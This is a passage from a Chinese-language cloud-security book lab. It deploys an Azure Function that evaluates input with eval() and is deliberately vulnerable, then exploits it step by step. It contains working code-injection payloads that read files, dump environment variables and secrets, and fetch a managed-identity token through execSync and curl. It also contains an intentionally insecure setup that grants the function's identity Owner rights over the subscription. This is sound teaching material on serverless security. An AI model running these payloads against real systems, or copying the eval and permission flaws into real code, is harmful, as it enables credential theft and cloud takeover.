通过发送带有简单表达式（`2+2`）的 `POST` 请求来测试 `evaluate` 函数：

```
curl -X POST "$INVOKE_URL?code=$FUNCTION_KEY" \
  -H "Content-Type: text/plain" \
  -d "2+2"
```

这会输出以下内容：

```
Evaluation result: 4
```

再次使用另一个有效表达式（`(2 + 2) * 7`）测试 `evaluate` 函数：

```
curl -X POST "$INVOKE_URL?code=$FUNCTION_KEY" \
  -H "Content-Type: text/plain" \
  -d "(2 + 2) * 7"
```

这应该成功返回以下求值结果：

```
Evaluation result: 28
```


你已完成在 Azure 中设置一个易受攻击的无服务器函数的配置。该函数预期接受有效的数学表达式作为输入，并通过使用 `eval()` 来对其进行求值。在实际应用中，该函数可能可以公开访问，并可从前端界面调用。正如本节开头所述，为保持示例简单并专注于函数本身，本章将跳过前端界面的实现。考虑到这些要点，接下来让我们探索如何借助自定义脚本来利用此无服务器函数。

### Exploiting the Vulnerable Serverless Function

现在，你将模拟攻击者利用你在前一节中部署的易受攻击的无服务器函数。不是手动调用该函数，你将使用一个自定义脚本，该脚本通过自定义 REPL 部分自动化了与函数的交互。使用此脚本，你将首先测试无服务器函数预期的有效数学表达式，然后逐步转向使用代码注入有效负载，以探索部署的代码、读取配置文件，并枚举函数应用中存储的环境变量（Figure 11-5）。



在过程中，你将了解 `eval()` 的不安全使用如何使代码注入攻击成为可能，并在无服务器函数环境中执行任意命令。这将帮助你理解使用 `eval()` 的实际后果，以及攻击者如何利用它来枚举环境。

#### Note

本节假设你使用的是 Attacker 账户。为避免第一个和第二个账户之间的会话冲突，在使用第二个账户登录前，请使用不同的浏览器或隐身/私人窗口。

让我们详细回顾步骤：

1. 在新的浏览器窗口中打开 [*https://portal.azure.com*](https://portal.azure.com) 并使用 Attacker 账户登录。

2. 通过单击 Azure 门户顶部导航栏中的 `>_` 图标启动 Azure Cloud Shell。

    ###### Note

    首次启动时，你将经历与 Serverless Lab 账户相同的初始设置过程。系统提示选择 Bash 或 PowerShell 时，选择 Bash 作为 shell 环境。然后，为确保文件在会话之间得以保留，选择“Mount storage account”，选择相应的存储账户订阅，然后从挂载存储账户的选项列表中选择“We will create a storage account for you”。

3. 在 Cloud Shell 终端中（在 `$` 符号之后）运行以下命令以创建名为 `tester.rb` 的新 Ruby 脚本文件：^(7)

    ```
    touch tester.rb
    ```

4. 单击 Editor 以访问 Cloud Shell 的内置代码编辑器。

5. 如果提示切换到 Classic Cloud Shell，选择 Confirm。

6. 找到并单击“Open editor”按钮（`{}`）以打开集成代码编辑器。打开 `tester.rb` 并用以下内容更新其内容：

    ```
    require 'net/http'
    require 'uri'
    
    INVOKE_URL = ENV['INVOKE_URL']
    FUNCTION_KEY = ENV['FUNCTION_KEY']
    
    unless INVOKE_URL && FUNCTION_KEY
      puts "Please set INVOKE_URL and FUNCTION_KEY environment variables."
      exit 1
    end
    
    uri = URI.parse("#{INVOKE_URL}?code=#{FUNCTION_KEY}")
    
    loop do
      print "Enter an expression (or type 'exit' to quit): "
      input = gets.strip
      break if input.downcase == 'exit'
    
      request = Net::HTTP::Post.new(uri)
      request['Content-Type'] = 'text/plain'
      request.body = input
    
      response = Net::HTTP.start(uri.hostname,
                                 uri.port,
                                 use_ssl: uri.scheme == 'https') do |http|
        http.request(request)
      end
    
      puts "[OUTPUT RESPONSE] #{response.body}"
    end
    ```

    此 Ruby 脚本仅接受用户输入，将其作为 `POST` 请求发送并附带所需的函数密钥，然后打印函数的响应。有了此脚本，你就可以轻松测试各种表达式和有效负载，而无需反复输入 `curl` 命令。

    ###### Note

    本模拟中使用的易受攻击函数已通过函数密钥进行了保护，以便只有你可以在模拟攻击者利用代码注入漏洞和错误配置时调用它。在现实世界的无服务器应用中，Azure Functions 可能并不总是通过函数密钥或其他身份验证机制进行保护，且某些函数甚至在生产环境中也可能公开可访问。

7. 从 Serverless Lab 账户的 Cloud Shell 终端复制 Invoke URL 和函数密钥的值。切换到 Attacker 账户的浏览器窗口和 Cloud Shell 终端，并将这些值存储在环境变量 `INVOKE_URL` 和 `FUNCTION_KEY` 中，以便在后续命令中重复使用：

    ```
    INVOKE_URL="[SPECIFY INVOKE URL]"
    FUNCTION_KEY="[SPECIFY FUNCTION KEY]"
    ```

    ###### Caution

    在 Attacker 账户的 Cloud Shell 终端中运行命令前，请将占位符替换为相应的 Invoke URL 和函数密钥值。

8. 准备就绪后，让我们运行 Ruby 脚本：

    ```
    export INVOKE_URL=$INVOKE_URL
    export FUNCTION_KEY=$FUNCTION_KEY
    
    ruby tester.rb
    ```

    这将启动一个 REPL，允许你交互式地输入表达式供无服务器函数求值：

    ```
    Enter an expression (or type 'exit' to quit):
    ```

    在幕后，该脚本仅作为 `curl` 的便捷层，自动处理带函数密钥的 `POST` 请求，并返回函数的输出，而无需你重新输入长命令。

9. 在脚本的 REPL 中，在 `Enter an expression (or type 'exit' to quit)` 之后，首先输入函数可以求值的数学表达式：

    ```
    2 + 5
    ```

    这会产生以下输出：

    ```
    [OUTPUT RESPONSE] Evaluation result: 7
    ```

    列出当前文件夹中的所有文件和目录：

    ```
    require('fs').readdirSync('./')
    ```

    这会产生以下输出：

    ```
    [OUTPUT RESPONSE] Evaluation result: package-lock.json,function-vars.sh,package.json,host.json,node_modules,src
    ```

    这里，表达式成功列出了函数应用工作目录的内容，因为易受攻击的函数通过 `eval()` 求值了任意 JavaScript 输入。这使你能够访问内置的 Node.js 模块，例如 `fs`，然后使用它执行文件系统操作。

    ###### Note

    真实世界的攻击者会尝试各种表达式和有效负载以查看哪些可以成功执行。在确认任意代码执行是可能之后，攻击者会继续进行文件系统探索、环境变量枚举和其他后利用活动。请记住，在给定环境中成功执行的确切有效负载和表达式取决于实现细节：语言运行时和版本；输入的解析、编码或转义方式；应用的任何清理或验证；以及函数在运行时公开的库、模块、API 或云绑定。

    检查 `package.json` 文件：

    ```
    require('fs').readFileSync('package.json', 'utf8')
    ```

    这返回以下内容：

    ```
    [OUTPUT RESPONSE] Evaluation result: {
      "name": "",
      "version": "1.0.0",
      "description": "",
      "main": "src/functions/*.js",
      "scripts": {
        "start": "func start",
        "test": "echo \"No tests yet...\""
      },
      "dependencies": {
        "@azure/functions": "⁴.0.0"
      },
      "devDependencies": {
        "azure-functions-core-tools": "⁴.x"
      }
    }
    ```


接下来，检查 `host.json` 文件：

```
require('fs').readFileSync('host.json', 'utf8')
```

这会产生以下输出：

```
OUTPUT RESPONSE] Evaluation result: {
  "version": "2.0",
  "logging": {
    "applicationInsights": {
      "samplingSettings": {
        "isEnabled": true,
        "excludedTypes": "Request"
      }
    }
  },
  "extensionBundle": {
    "id": "Microsoft.Azure.Functions.ExtensionBundle",
    "version": "[4.*, 5.0.0)"
  }
}
```

列出 `src` 文件夹中的所有文件和目录：

```
require('fs').readdirSync('./src')
```

输出如下：

```
[OUTPUT RESPONSE] Evaluation result: functions
```

列出 `src/functions` 目录中的所有文件：

```
require('fs').readdirSync('./src/functions')
```

这会产生以下输出：

```
[OUTPUT RESPONSE] Evaluation result: evaluate.js
```

##### 10. 检查存储在 `src/functions` 目录中的 `evaluate.js` 文件

```
require('fs').readFileSync('./src/functions/evaluate.js', 'utf8')
```

这会返回函数的源代码：

```
[OUTPUT RESPONSE] Evaluation result: const { app } = require('@azure/...');

const HARDCODED_KEY = "67890ghijkl";

app.http('evaluate', {
  methods: ['POST'],
  authLevel: 'function',
  handler: async (request, context) => {
    const expression = await request.text() || '"No expression provided"';

    let result;
    try {
      result = eval(expression);
    } catch (err) {
      result = `Error: ${err.message}`;
    }

    return { body: `Evaluation result: ${result}` };
  }
});
```

#### Note

在此，攻击者可以窃取函数代码中任何硬编码的凭据（例如 `HARDCODED_KEY`），并使用它们来调用其他服务或 API。在本示例中，这些密钥仅为占位符值，不会授予真实访问权限。然而，在现实世界中，泄露的硬编码密钥可能会让攻击者访问数据库、内部 API 以及跨云平台和第三方服务的其他资源。

检索环境变量：

```
JSON.stringify(process.env)
```

这会产生以下输出：

```
Evaluation result: {"ALLUSERSPROFILE":"C:\\local\\ProgramData",...}
```

由于前面的命令返回了所有环境变量及其值，因此仅列出所有环境变量的名称：

```
JSON.stringify(Object.keys(process.env))
```

以下是输出：

```
[OUTPUT RESPONSE] Evaluation result:
["ALLUSERSPROFILE","APPDATA",..."SAMPLE_API_KEY",...,
 "WEBSOCKET_CONCURRENT_REQUEST_LIMIT","windir",
 "WORKER_INDEXING_ENABLED"]
```

输入 `exit` 并按 Enter 停止脚本并返回到命令行。

##### 11. 让我们更新脚本，使环境变量以更易读的方式呈现

在 Cloud Shell 编辑器中，打开 `tester.rb` 文件并使用以下内容更新它：

```
require 'net/http'
require 'uri'
require 'json'

INVOKE_URL = ENV['INVOKE_URL']
FUNCTION_KEY = ENV['FUNCTION_KEY']

unless INVOKE_URL && FUNCTION_KEY
  puts "Please set INVOKE_URL and FUNCTION_KEY environment variables."
  exit 1
end

uri = URI.parse("#{INVOKE_URL}?code=#{FUNCTION_KEY}")

loop do
  print "Enter an expression (or type 'exit' to quit): "
  input = gets.strip
  break if input.downcase == 'exit'

  request = Net::HTTP::Post.new(uri)
  request['Content-Type'] = 'text/plain'
  request.body = input

  response = Net::HTTP.start(uri.hostname,
                             uri.port,
                             use_ssl: uri.scheme == 'https') do |http|
    http.request(request)
  end

  body = response.body.strip

  if body.start_with?("Evaluation result:")
    raw_result = body.sub("Evaluation result:", "").strip

    begin
      parsed = JSON.parse(raw_result)
      puts "[OUTPUT RESPONSE]\n#{JSON.pretty_generate(parsed)}"
    rescue JSON::ParserError
      puts "[OUTPUT RESPONSE] #{raw_result}"
    end
  else
    puts "[OUTPUT RESPONSE] #{body}"
  end
end
```

脚本已更新，以便更轻松地读取来自无服务器函数的输出 JSON 响应。

#### Tip

编写自定义脚本和修改现有代码是构建可加速安全测试的自动化工具的关键技能。即使你没有丰富的编码经验，也可以依靠 AI 驱动的编码助手来帮助你开发、调试和改进可自动化重复性任务的脚本。你不仅限于为测试漏洞编写自定义脚本，还可以自动化报告、数据收集、代码审查和其他安全相关任务。

##### 12. 运行更新后的 Ruby 脚本来启动 REPL

```
ruby tester.rb
```

##### 13. 在脚本的 REPL 中，在 `Enter an expression (or type 'exit' to quit)` 之后，首先输入一个函数可以计算的数学表达式

```
42 + 2
```

这会输出以下内容：

```
[OUTPUT RESPONSE]
44
```

检索并显示所有环境变量：

```
JSON.stringify(process.env)
```

你应该会得到一个格式良好的 JSON 输出，其中包含所有环境变量及其值：

```
[OUTPUT RESPONSE]
{
  "ALLUSERSPROFILE": "C:\\local\\ProgramData",
  "APPDATA": "C:\\local\\AppData",
  "APPLICATIONINSIGHTS_CONNECTION_STRING": "...,
  "APPSETTING_APPLICATIONINSIGHTS_CONNECTION_STRING": "...",
  "APPSETTING_AzureWebJobsStorage": "...",
  "APPSETTING_FUNCTIONS_EXTENSION_VERSION": "~4",
  "APPSETTING_FUNCTIONS_WORKER_RUNTIME": "node",
  "APPSETTING_SAMPLE_API_KEY": "12345abcdef",

  ...

  "WEBSITE_SITE_NAME": "functionapp12345",
  "WEBSITE_SKU": "Dynamic",
  "WEBSITE_SLOT_NAME": "Production",
  "WEBSITE_VOLUME_TYPE": "AzureFiles",
  "WEBSOCKET_CONCURRENT_REQUEST_LIMIT": "35",
  "windir": "C:\\Windows",
  "WORKER_INDEXING_ENABLED": "1"
}
```

这次，由于输出现在以结构化 JSON 格式呈现，与之前的原始转储相比，你应该能够更快地扫描和定位值。

#### Note

你应该在评估 `JSON.stringify(process.env)` 后的 JSON 输出中找到环境变量 `SAMPLE_API_KEY`。

最后，检索并显示 `SAMPLE_API_KEY` 环境变量的值：

```
JSON.stringify(process.env.SAMPLE_API_KEY)
```

以下是输出：

```
[OUTPUT RESPONSE]
"12345abcdef"
```

此时，你应该知道为什么应避免在应用程序中使用 `eval()`。虽然本节重点关注使用 `eval()` 的安全风险，但请注意，代码注入攻击可以通过许多其他方式发生。示例包括 `exec()` 或 `spawn()` 等函数的不安全使用、不安全的模板渲染、反序列化漏洞，或未经过清理的输入传递到 shell 命令或 SQL 查询中。

请记住，并非每一次代码注入都会导致远程代码执行。然而，即使不执行任意代码，也可能泄露密钥、操纵应用程序行为或允许攻击者提升权限。理解这些细微差别将有助于你构建能够抵御代码注入漏洞和其他基于输入的攻击的安全无服务器应用程序。

### 在 Azure Key Vault 中存储密钥


你现在已经看到攻击者如何轻松利用代码漏洞来窃取凭据，无论这些凭据是硬编码在函数中还是存储在环境变量中。在本节中，你将更新你的有意易受攻击的无服务器实验室，并通过将机密存储在 Azure Key Vault 中引入一种更安全处理敏感值的方法。从防御安全角度来看，Azure Key Vault 通过将机密移出源代码和配置文件，为硬编码凭据提供了一种更安全的替代方案。虽然它不是万能药，但使用机密管理器服务有助于缓解与在源代码中存储机密相关的许多常见风险。

Figure 11-6 说明了你在完成本节后，无服务器实验室账户的配置情况。要完成设置，你将创建一个 Key Vault，存储占位符机密，并为你的函数应用配置托管身份以在运行时安全地检索机密。



#### Note

本节假设你正在使用你的 Serverless Lab 账户，其中易受攻击的无服务器函数已部署。你将通过设置和配置额外的资源，包括 Key Vault 和函数应用的托管身份，来扩展此初始无服务器实验室环境。

让我们逐步详细了解步骤：

##### 1. 切换回 Serverless Lab 账户的浏览器窗口和 Cloud Shell 终端。

#### Tip

如果你的 Cloud Shell 会话已超时，只需在 Cloud Shell 弹出窗口中点击 Reconnect 按钮即可在继续之前恢复会话。

##### 2. 运行以下命令在你的资源组中创建一个名称随机生成的新 Key Vault（`$` 符号之后）：^8

```
source ~/vulnerable-function/function-vars.sh

KEYVAULT_NAME="keyvault$RANDOM"

az keyvault create \
  --name $KEYVAULT_NAME \
  --resource-group $RESOURCE_GROUP \
  --location $LOCATION \
  --sku standard
```

一分钟左右后，这会产生以下输出：

```
{
  "id": "/subscriptions/.../vaults/keyvault...",
  "location": "eastus",
  "name": "keyvault...",
  "properties": {
    ...
  },
  "resourceGroup": "rg-serverless-security-lab",
  "systemData": {
    ...
  },
  "tags": {},
  "type": "Microsoft.KeyVault/vaults"
}
```

##### 3. 检查是否为你刚刚创建的 Key Vault 启用了基于角色的访问控制（RBAC）授权：

```
az keyvault show --name $KEYVAULT_NAME \
    --query properties.enableRbacAuthorization
```

这应该返回 `true`。当 `enableRbacAuthorization` 为 `true` 时，表示你的 Key Vault 使用 Azure RBAC 而不是旧版访问策略。^9

##### 4. 以 JSON 格式显示当前已登录用户的详细信息：

```
az ad signed-in-user show \
  --query "{displayName: displayName, upn:userPrincipalName, id:id}" \
  -o json
```

以下是输出：

```
{
  "displayName": "...",
  "id": "...",
  "upn": "..."
}
```

##### 5. 使用以下命令检索用户主体名称（UPN）：

```
QUERY_RESULTS=$(az ad signed-in-user show \
  --query "{displayName: displayName, upn:userPrincipalName, id:id}" \
  -o json)

USER_UPN=$(echo $QUERY_RESULTS | jq -r ".upn")
echo $USER_UPN
```

输出如下所示：

```
admin@....onmicrosoft.com
```

##### 6. 检索当前 Azure 订阅 ID：

```
SUBSCRIPTION_ID=$(az account show --query id -o tsv)
echo $SUBSCRIPTION_ID
```

你应该得到一个 UUID 风格的字符串，唯一标识你的当前 Azure 订阅。

##### 7. 为你的用户账户分配指定的 Key Vault 的 Key Vault Secrets Officer 角色：

```
SCOPE_RG="/subscriptions/$SUBSCRIPTION_ID/resourceGroups/$RESOURCE_GROUP"
SCOPE_KV="/providers/Microsoft.KeyVault/vaults/$KEYVAULT_NAME"
SCOPE="$SCOPE_RG$SCOPE_KV"

az role assignment create \
  --role "Key Vault Secrets Officer" \
  --assignee $USER_UPN \
  --scope $SCOPE
```

这会产生以下输出：

```
{
  "condition": null,
  "conditionVersion": null,
  "createdBy": null,
  "createdOn": "2025-00-00T00:00:00.000000+00:00",
  "delegatedManagedIdentityResourceId": null,
  "description": null,
  "id": "/subscriptions/.../roleAssignments/...",
  "name": "...",
  "principalId": "...",
  "principalType": "User",
  "resourceGroup": "rg-serverless-security-lab",
  "roleDefinitionId": "/subscriptions/.../roleDefinitions/...",
  "scope": "/subscriptions/.../vaults/keyvault...",
  "type": "Microsoft.Authorization/roleAssignments",
  "updatedBy": "...",
  "updatedOn": "2025-00-00T00:00:00.000000+00:00"
}
```

#### Note

这为你的用户账户提供了管理并访问指定 Key Vault 中机密所需的权限，同时将这些权限限制在该 Key Vault 范围内。

##### 8. 现在让我们在 Key Vault 中添加并存储两个机密。在指定的 Key Vault 中创建一个名为 `secret00` 的新机密：

```
az keyvault secret set \
  --vault-name $KEYVAULT_NAME \
  --name "secret00" \
  --value "SECRETABC123"
```

在指定的 Key Vault 中创建另一个名为 `secret01` 的机密：

```
az keyvault secret set \
  --vault-name $KEYVAULT_NAME \
  --name "secret01" \
  --value "SECRETDEF456"
```

##### 9. 为你的函数应用启用系统分配的托管身份：

```
source ~/vulnerable-function/function-vars.sh

az functionapp identity assign \
  --name $FUNCTION_APP \
  --resource-group $RESOURCE_GROUP
```

#### Note

Azure 中的托管身份的工作方式类似于 AWS IAM 角色。它允许你的函数应用在不将凭据硬编码到代码中的情况下安全地访问其他资源。

##### 10. 检索函数应用的托管身份详细信息及其主体 ID：^10

```
DETAILS=$(az functionapp identity show \
  --name $FUNCTION_APP \
  --resource-group $RESOURCE_GROUP)

PRINCIPAL_ID=$(echo $DETAILS | jq -r ".principalId")
```

##### 11. 在订阅级别授予托管身份 Owner 权限：

```
SUBSCRIPTION_ID=$(az account show --query id -o tsv)

az role assignment create \
  --assignee $PRINCIPAL_ID \
  --role "Owner" \
  --scope /subscriptions/$SUBSCRIPTION_ID
```

##### 12. 将 Key Vault 名称设置为环境变量以供后续命令使用：

```
KEYVAULT_NAME="[SPECIFY KEYVAULT NAME]"
```

在运行命令之前，请确保将 `[SPECIFY KEYVAULT NAME]` 替换为 Key Vault 资源的名称。

#### Note

如果 `KEYVAULT_NAME` 已在你的当前 Cloud Shell 会话中设置，可以跳过此步骤。你可以运行 `az keyvault list --query "[].name" -o table` 来检索 Key Vault 名称并将其分配给 `KEYVAULT_NAME`。

##### 13. 为指定的 Key Vault 将 Key Vault Secrets Officer 角色分配给托管身份：

```
SCOPE_RG="/subscriptions/$SUBSCRIPTION_ID/resourceGroups/$RESOURCE_GROUP"
SCOPE_KV="/providers/Microsoft.KeyVault/vaults/$KEYVAULT_NAME"
SCOPE="$SCOPE_RG$SCOPE_KV"

az role assignment create \
  --role "Key Vault Secrets Officer" \
  --assignee $PRINCIPAL_ID \
  --scope $SCOPE
```

这为你的无服务器函数的托管身份提供了从 Key Vault 访问机密所需的权限。^11

##### 14. 配置函数应用将 Key Vault 名称存储为环境变量：


```
az functionapp config appsettings set \
  --name $FUNCTION_APP \
  --resource-group $RESOURCE_GROUP \
  --settings KEYVAULT_NAME=$KEYVAULT_NAME
```

Key Vault 及其密钥就绪后，下一步是更新 `evaluate` 函数以直接从 Key Vault 中检索和使用密钥：

1. 导航到你的函数目录并使用 `npm install` 安装 Azure Identity 和 Key Vault Secrets 包：

```
cd ~/vulnerable-function

npm install @azure/identity @azure/keyvault-secrets
```

2. 检查 `package.json` 文件：

```
cat package.json
```

输出如下：

```
{
  "name": "",
  "version": "1.0.0",
  "description": "",
  "main": "src/functions/*.js",
  "scripts": {
    "start": "func start",
    "test": "echo \"No tests yet...\""
  },
  "dependencies": {
    "@azure/functions": "⁴.0.0",
    "@azure/identity": "⁴.12.0",
    "@azure/keyvault-secrets": "⁴.10.0"
  },
  "devDependencies": {
    "azure-functions-core-tools": "⁴.x"
  }
}
```

3. 在代码编辑器中打开 `vulnerable-function/src/functions/evaluate.js`。

4. 用以下代码替换 `evaluate.js` 的内容：

```
const { app } = require('@azure/functions');
const { DefaultAzureCredential } = require("@azure/identity");
const { SecretClient } = require("@azure/keyvault-secrets");

const HARDCODED_KEY = "67890ghijkl";

const KEY_VAULT_NAME = process.env.KEYVAULT_NAME;
const SECRET_NAMES = ["secret00", "secret01"];

const KV_URL = `https://${KEY_VAULT_NAME}.vault.azure.net`;

const credential = new DefaultAzureCredential();
const client = new SecretClient(KV_URL, credential);

const secrets = {};
(async () => {
  for (const name of SECRET_NAMES) {
    try {
      const secret = await client.getSecret(name);
      secrets[name] = secret.value;
    } catch (err) {
      console.error(`Failed to fetch secret ${name}: ${err.message}`);
      secrets[name] = null;
    }
  }
})();

app.http('evaluate', {
  methods: ['POST'],
  authLevel: 'function',
  handler: async (request, context) => {
    const expression = await request.text() || '"No expression provided"';

    const { secret00, secret01 } = secrets;

    let result;

    try {
      result = eval(expression);
    } catch (err) {
      result = `Error: ${err.message}`;
    }

    return { body: `Evaluation result: ${result} with secret ${secret00}` };
  }
});
```

此无服务器函数从 Azure Key Vault 读取密钥并将它们存储在 `secrets` 对象中，以便函数在运行时可以访问它们。

#### Note

由于从 Azure Key Vault 检索到的密钥只是示例占位符值，出于清晰和简洁的目的，脆弱函数的其余部分已被省略。

5. 将更新后的函数代码（`evaluate.js`）部署到你的函数应用：

```
func azure functionapp publish $FUNCTION_APP
```

6. 将函数的 Invoke URL 存储在环境变量（`INVOKE_URL`）中：

```
INVOKE_URL="[SPECIFY INVOKE URL]"
```

在运行命令之前，请务必将 `[SPECIFY INVOKE URL]` 替换为函数的 Invoke URL（来自上一步的输出）。

7. 获取 `evaluate` 函数的函数密钥：

```
KEY=$(az functionapp function keys list \
  --resource-group $RESOURCE_GROUP \
  --name $FUNCTION_APP \
  --function-name evaluate)

FUNCTION_KEY=$(echo $KEY | jq -r ".default")
```

8. 使用 `curl` 通过简单表达式测试 `evaluate` 函数：

```
curl -X POST "$INVOKE_URL?code=$FUNCTION_KEY" \
  -H "Content-Type: text/plain" \
  -d "2+7"
```

这会产生以下输出：

```
Evaluation result: 9 with secret SECRETABC123
```

现在你已确认函数可以成功从 Key Vault 读取密钥，让我们更新 `evaluate` 函数，使其不再在其输出响应中包含其中一个检索到的密钥：

1. 在代码编辑器中打开 `vulnerable-function/src/functions/evaluate.js`。

2. 用以下代码替换 `evaluate.js` 的内容：

```
const { app } = require('@azure/functions');
const { DefaultAzureCredential } = require("@azure/identity");
const { SecretClient } = require("@azure/keyvault-secrets");

const HARDCODED_KEY = "67890ghijkl";

const KEY_VAULT_NAME = process.env.KEYVAULT_NAME;
const SECRET_NAMES = ["secret00", "secret01"];

const KV_URL = `https://${KEY_VAULT_NAME}.vault.azure.net`;

const credential = new DefaultAzureCredential();
const client = new SecretClient(KV_URL, credential);

const secrets = {};
(async () => {
  for (const name of SECRET_NAMES) {
    try {
      const secret = await client.getSecret(name);
      secrets[name] = secret.value;
    } catch (err) {
      console.error(`Failed to fetch secret ${name}: ${err.message}`);
      secrets[name] = null;
    }
  }
})();

app.http('evaluate', {
  methods: ['POST'],
  authLevel: 'function',
  handler: async (request, context) => {
    const expression = await request.text() || '"No expression provided"';

    const { secret00, secret01 } = secrets;

    let result;

    try {
      result = eval(expression);
    } catch (err) {
      result = `Error: ${err.message}`;
    }

    return { body: `Evaluation result: ${result}` };
  }
});
```

3. 运行以下命令将更新后的函数代码（`evaluate.js`）部署到你的函数应用：

```
func azure functionapp publish $FUNCTION_APP
```

4. 使用简单表达式，例如 `7 + 2` 测试 `evaluate` 函数：

```
curl -X POST "$INVOKE_URL?code=$FUNCTION_KEY" \
  -H "Content-Type: text/plain" \
  -d "7 + 2"
```

以下是输出：

```
Evaluation result: 9
```

5. 使用另一个有效表达式测试 `evaluate` 函数，例如 `(7 + 2) * 5 - 3`：

```
curl -X POST "$INVOKE_URL?code=$FUNCTION_KEY" \
  -H "Content-Type: text/plain" \
  -d "(7 + 2) * 5 - 3"
```

这会输出以下内容：

```
Evaluation result: 42
```

在本节中，你通过设置 Key Vault 并在其中存储占位符密钥来升级无服务器实验室环境。之后，你为函数应用配置了托管标识。为了完成设置，你更新并部署了 `evaluate` 函数以安全地从 Key Vault 检索和使用密钥。

此时，你的专为脆弱而设计的无服务器应用程序已准备就绪，并配置为访问和检索 Key Vault 密钥。

### 利用过度宽松的托管标识来外泄 Key Vault 密钥

虽然使用密钥管理器服务有助于将密钥移出代码和配置文件，但它并不能保证密钥完全免受攻击者侵害。在本节中，你将探讨过度宽松的托管标识和代码注入漏洞如何使攻击者暴露存储在 Key Vault 中的密钥。承接上一节，你将使用 `tester.rb` 脚本来执行各种代码注入负载以检索环境变量以及与函数应用关联的访问令牌，如 Figure 11-7 所示。




由于函数应用的管理标识同时具有 Owner 级别的访问权限以及访问 Key Vault 密钥的权限，因此你可以直接使用被窃取的访问令牌来检索密钥。在模拟过程中，你将遇到两个访问令牌：一个用于管理平面，用于修改或管理资源配置，另一个用于 Key Vault 数据平面，用于安全地访问密钥。理解这两个令牌之间的区别至关重要，因为它有助于你识别不同的访问级别以及如果被入侵的管理标识的令牌被泄露时可能产生的潜在影响。

#### 注意

本节假定你主要使用攻击者账户进行操作。然而，部分步骤可能需要你切换到 Serverless Lab 账户，或参考保存在本地机器上的文本文件，其中包含之前复制的值。

让我们开始模拟：

1. 从 Serverless Lab 账户的 Cloud Shell 终端复制 Invoke URL 和函数密钥的值。切换到攻击者账户的浏览器窗口和 Cloud Shell 终端，并将这些值存储在环境变量中（`INVOKE_URL` 和 `FUNCTION_KEY`）：

```
INVOKE_URL="[SPECIFY INVOKE URL]"
FUNCTION_KEY="[SPECIFY FUNCTION KEY]"
```

##### 提示

如果你的 Cloud Shell 会话已超时，只需在 Cloud Shell 弹出窗口中点击 Reconnect 按钮即可在继续操作前恢复会话。

2. 使用以下命令运行 Ruby 脚本：

```
export INVOKE_URL=$INVOKE_URL
export FUNCTION_KEY=$FUNCTION_KEY

ruby tester.rb
```

3. 在脚本的 REPL 中，在 `Enter an expression (or type 'exit' to quit)` 提示后，首先输入一个函数可以计算的数学表达式：

```
(42 + 2) * (11 - 7)
```

这会产生以下输出：

```
[OUTPUT RESPONSE]
176
```

检索所有环境变量：

```
JSON.stringify(process.env)
```

以下是输出：

```
[OUTPUT RESPONSE]
{
  "ALLUSERSPROFILE": "C:\\local\\ProgramData",
  "APPDATA": "C:\\local\\AppData",
  "APPLICATIONINSIGHTS_CONNECTION_STRING": "...,
  "APPSETTING_APPLICATIONINSIGHTS_CONNECTION_STRING": "...",
  "APPSETTING_AzureWebJobsStorage": "...",
  "APPSETTING_FUNCTIONS_EXTENSION_VERSION": "~4",
  "APPSETTING_FUNCTIONS_WORKER_RUNTIME": "node",
  "APPSETTING_SAMPLE_API_KEY": "12345abcdef",

  ...

  "WEBSITE_SITE_NAME": "functionapp...",
  "WEBSITE_SKU": "Dynamic",
  "WEBSITE_SLOT_NAME": "Production",
  "WEBSITE_VOLUME_TYPE": "AzureFiles",
  "WEBSOCKET_CONCURRENT_REQUEST_LIMIT": "35",
  "windir": "C:\\Windows",
  "WORKER_INDEXING_ENABLED": "1"
}
```

检索资源组的取值：

```
JSON.stringify(process.env.WEBSITE_RESOURCE_GROUP)
```

这会返回以下内容：

```
[OUTPUT RESPONSE]
"rg-serverless-security-lab"
```

检索 `IDENTITY_ENDPOINT` 环境变量的值：

```
JSON.stringify(process.env.IDENTITY_ENDPOINT)
```

输出如下所示：

```
[OUTPUT RESPONSE]
"http://127.0.0.1:41413/msi/token/"
```

检索 `IDENTITY_HEADER` 环境变量的值：

```
JSON.stringify(process.env.IDENTITY_HEADER)
```

检索 `MSI_ENDPOINT` 环境变量的值：

```
JSON.stringify(process.env.MSI_ENDPOINT)
```

这会产生以下输出：

```
[OUTPUT RESPONSE]
"http://127.0.0.1:41413/msi/token/"
```

检索 `MSI_SECRET` 环境变量的值：

```
JSON.stringify(process.env.MSI_SECRET)
```

作为单行运行此命令以使用托管标识获取 Key Vault 访问令牌：

```
require("child_process").execSync(
   `curl -s -H "X-IDENTITY-HEADER: ${process.env.IDENTITY_HEADER}"
   "${process.env.IDENTITY_ENDPOINT}
   ?resource=https://management.azure.com/&api-version=2019-08-01"`,
   { encoding: "utf8" }
);
```

输出如下：

```
{
  "access_token": "...",
  "expires_on": "...",
  "resource": "https://management.azure.com/",
  "token_type": "Bearer",
  "client_id": "..."
}
```

##### 警告

确保命令作为单行连续输入，不要有换行，以防止执行错误。

通过以下方式计算来检索订阅 ID：

```
process.env["WEBSITE_OWNER_NAME"]?.split('+')[0]
```

输入 `exit` 并按 Enter 停止脚本并返回到命令行。

4. 将检索到的 Azure 访问令牌存储在环境变量（`ACCESS_TOKEN`）中：

```
ACCESS_TOKEN="[SPECIFY ACCESS TOKEN]"
```

5. 解码 JWT 访问令牌以以 JSON 格式检查其负载：

```
echo $ACCESS_TOKEN | cut -d "." -f2 | base64 --decode | jq .
```

这会产生以下输出：

```
{
  "aud": "https://management.azure.com/",
  "iss": "...",
  "iat": ...,
  "nbf": ...,
  "exp": ...,
  "aio": "...",
  "appid": "...",
  "appidacr": "...",
  "idp": "...",
  "idtyp": "app",
  "oid": "...",
  "rh": "...",
  "sub": "...",
  "tid": "...",
  "uti": "...",
  "ver": "1.0",
  "xms_ftd": "...",
  "xms_idrel": "...",
  "xms_mirid": "/.../rg-serverless-security-lab/.../functionapp...",
  "xms_rd": "...",
  "xms_tcdt": "..."
}
```

下表更详细地介绍了部分访问令牌声明：

| Claim || Description |

| --- | --- |

| `aud` || 令牌的预期受众/接收方 |

| --- | --- |

| `iss` || 令牌的颁发者 |

| `iat` || Issued At 时间戳（令牌颁发时间） |

| `nbf` || Not Before 时间戳（令牌生效时间） |

| `exp` || 过期时间戳（令牌不再有效的时间） |

| `aio` || 用于令牌处理的内部 Azure AD 声明 |

| `appid` || 令牌颁发给的客户端的应用程序 ID |

| `appidacr` || 用于验证应用的方法 |

| `idp` || 对令牌主体进行身份验证的身份提供者 |

| `idtyp` || 标识令牌是应用（或应用+用户）令牌 |

| `oid` || 用户或服务主体的对象 ID |

| `rh` || 用于刷新/重新验证令牌的内部声明 |

